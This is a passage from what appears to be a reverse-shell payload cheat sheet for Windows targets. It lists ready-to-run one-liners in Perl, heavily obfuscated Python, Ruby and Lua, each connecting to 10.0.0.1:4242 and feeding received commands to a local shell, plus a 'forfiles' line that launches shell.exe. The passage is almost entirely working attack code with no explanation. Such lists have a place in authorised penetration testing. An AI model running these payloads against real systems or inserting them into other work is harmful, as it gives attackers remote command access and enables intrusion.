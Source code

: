 ```bash
forfiles /c shell.exe
```

---

## Other

### perl

```perl
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"10.0.0.1:4242");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

### python

```powershell
C:\Python27\python.exe -c "(lambda __y, __g, __contextlib: [[[[[[[(s.connect(('10.0.0.1', 4242)), [[[(s2p_thread.start(), [[(p2s_thread.start(), (lambda __out: (lambda __ctx: [__ctx.__enter__(), __ctx.__exit__(None, None, None), __out[0](lambda: None)][2])(__contextlib.nested(type('except', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: __exctype is not None and (issubclass(__exctype, KeyboardInterrupt) and [True for __out[0] in [((s.close(), lambda after: after())[1])]][0])})(), type('try', (), {'__enter__': lambda self: None, '__exit__': lambda __self, __exctype, __value, __traceback: [False for __out[0] in [((p.wait(), (lambda __after: __after()))[1])]][0]})())))([None]))[1] for p2s_thread.daemon in [(True)]][0] for __g['p2s_thread'] in [(threading.Thread(target=p2s, args=[s, p]))]][0])[1] for s2p_thread.daemon in [(True)]][0] for __g['s2p_thread'] in [(threading.Thread(target=s2p, args=[s, p]))]][0] for __g['p'] in [(subprocess.Popen(['\\windows\\system32\\cmd.exe'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT, stdin=subprocess.PIPE))]][0])[1] for __g['s'] in [(socket.socket(socket.AF_INET, socket.SOCK_STREAM))]][0] for __g['p2s'], p2s.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: (__l['s'].send(__l['p'].stdout.read(1)), __this())[1] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 'p2s')]][0] for __g['s2p'], s2p.__name__ in [(lambda s, p: (lambda __l: [(lambda __after: __y(lambda __this: lambda: [(lambda __after: (__l['p'].stdin.write(__l['data']), __after())[1] if (len(__l['data']) > 0) else __after())(lambda: __this()) for __l['data'] in [(__l['s'].recv(1024))]][0] if True else __after())())(lambda: None) for __l['s'], __l['p'] in [(s, p)]][0])({}), 's2p')]][0] for __g['os'] in [(__import__('os', __g, __g))]][0] for __g['socket'] in [(__import__('socket', __g, __g))]][0] for __g['subprocess'] in [(__import__('subprocess', __g, __g))]][0] for __g['threading'] in [(__import__('threading', __g, __g))]][0])((lambda f: (lambda x: x(x))(lambda y: f(lambda: y(y)()))), globals(), __import__('contextlib'))"
```

### ruby

```ruby
ruby -rsocket -e 'c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### lua

```powershell
lua5.1 -e 'local host, port = "10.0.0.1", 4242 local socket = require("socket") local tcp = socket.tcp() local io = require("io") tcp:connect(host, port); while true do local cmd, status, partial = tcp:receive() local f = io.popen(cmd, "r") local s = f:read("*a") f:close() tcp:send(s) if status == "closed" then break end end tcp:close()'
```
